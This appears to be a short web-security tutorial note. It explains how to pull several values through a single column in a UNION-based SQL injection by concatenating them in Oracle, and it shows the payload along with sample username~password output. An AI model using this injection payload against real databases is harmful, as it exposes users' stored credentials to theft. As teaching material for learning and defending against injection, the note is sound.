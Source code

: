 In some cases, the query from the [[Using a SQL injection attack with UNION to extract interesting data|previous example]] may return only one column.
We can extract multiple values ​​in that single column by concatenating them. To do this, we can use a delimiter to help distinguish the concatenated values. For example, in Oracle, we can send the following input:
```SQL
' UNION SELECT username || '~' || password FROM users--
```
This uses the string concatenation operator `||`, which in Oracle concatenates values. The injected query concatenates the values ​​of the `username` and `password` fields, separated by the `~` character.
The query results contain all usernames and passwords, for example:
```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```